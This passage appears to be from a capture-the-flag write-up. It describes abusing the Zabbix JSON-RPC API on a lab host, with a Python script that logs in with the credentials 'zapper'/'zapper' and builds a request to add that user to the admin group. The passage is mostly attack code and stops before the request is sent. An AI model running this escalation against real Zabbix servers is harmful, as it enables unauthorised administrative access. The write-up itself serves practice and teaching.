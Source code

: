 Hmmn, this looks like a giant loop. Oops. The only script backed up is the script that backs up all the scripts... Not useful for now.

Okay, well, plan B. We have a user on the Zabbix host, maybe we can get ourselves more meaningful shell?

https://www.zabbix.com/documentation/3.2/manual/api/reference/user/create tells us we can create a user on the box. Let's do this:

Firstly, I'm automating this with python, but feel free to do this by hand. We know a few things from the doco:

GUI access should be 0 for it to be enabled, and that the admin group is group 7 https://www.zabbix.com/documentation/3.2/manual/api/reference/usergroup/get. Looking at that it could be that we're in user group 12, which prevents us from viewing the GUI. Two birds with one stone, let's add ourselves to admin.
```
import requests
import pprint
// Because I like pretty output
pp = pprint.PrettyPrinter(indent=4)
// Handy, in case there's cookies. Wasn't really needed in this instance.
session = requests.Session()
// Should be the same.
base_url = "http://10.10.10.108/zabbix/api_jsonrpc.php"
//Based on the API doco, these are the params from the login request. I'm using the requests library, so I can built a JSON payload from python dictionaries and lists.
login_params = {
            "user": "zapper",
            "password": "zapper",
            "userData": True
        }
// The final request payload.
request_params = {
            "jsonrpc": "2.0",
            "method": "user.login",
            "id": 1,
            "params": login_params
        }
// We need this, otherwise it don't work.
headers = {"Content-type": "application/json-rpc"}
// Submit out request.
login_resp = session.post(base_url, headers=headers, json=request_params)
//Get our login info, and print it out. The .json() function pre-parses the data back from zabbix, so we don't have to explicitly do it.
login_info = login_resp.json()
pp.pprint(login_info)
// In the response was an auth token. We need that for the next request.
auth = login_info["result"]["sessionid"]
print("Got auth token "+auth)

//Now we set up the dictionaries for the groups update request, first setting the userid and group we want to add our user to.
update_params = {
            "userid": "3",
            "usrgrps": "7"
        }
// And then building the full request.
request_params = {
            "jsonrpc": "2.0",
            "method": "user.update",
            "id": 1,
            "params": update_params,
            "auth": auth

        }
```